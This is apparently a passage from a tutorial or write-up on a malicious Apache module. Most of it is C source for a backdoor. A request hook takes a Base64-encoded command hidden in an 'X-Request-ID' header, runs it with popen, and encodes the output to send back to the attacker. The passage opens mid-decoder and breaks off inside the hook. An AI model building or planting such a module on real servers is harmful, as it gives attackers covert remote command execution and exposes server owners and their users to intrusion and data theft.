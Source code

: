 ```c
    }

    if (out_len) *out_len = j;
    return output;
}
```

#### Base64 Encoder Implementation

The encoder converts command output back to Base64 for transmission to the attacker:

```c
static char *b64encode(apr_pool_t *pool, const unsigned char *input, size_t len) {
    static const char b64_chars[] =
        "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

    size_t out_len = 4 * ((len + 2) / 3);
    char *output = apr_pcalloc(pool, out_len + 1);

    size_t i = 0, j = 0;
    while (i < len) {
        uint32_t octet_a = i < len ? input[i++] : 0;
        uint32_t octet_b = i < len ? input[i++] : 0;
        uint32_t octet_c = i < len ? input[i++] : 0;

        uint32_t triple = (octet_a << 16) | (octet_b << 8) | octet_c;

        output[j++] = b64_chars[(triple >> 18) & 0x3F];
        output[j++] = b64_chars[(triple >> 12) & 0x3F];
        output[j++] = (i > len + 1) ? '=' : b64_chars[(triple >> 6) & 0x3F];
        output[j++] = (i > len) ? '=' : b64_chars[triple & 0x3F];
    }

    output[out_len] = '\0';
    return output;
}
```

#### Request Hook Handler

This is the core logic that intercepts HTTP requests, extracts commands, executes them, and returns the output:

```c
static int admin_exec_hook(request_rec *r)
{
    // Skip subrequests
    if (r->main) return DECLINED;

    // Check for our trigger header
    const char *hdr_enc = apr_table_get(r->headers_in, "X-Request-ID");
    if (!hdr_enc) return DECLINED;

    // Decode the command
    size_t cmd_len;
    unsigned char *cmd = b64decode(r->pool, hdr_enc, &cmd_len);
    if (!cmd || cmd_len == 0) return DECLINED;

    ap_set_content_type(r, "text/plain");

    // Execute command via popen
    FILE *fp = popen((const char *)cmd, "r");
    if (!fp) {
        ap_rputs("failed\n", r);
        return OK;
```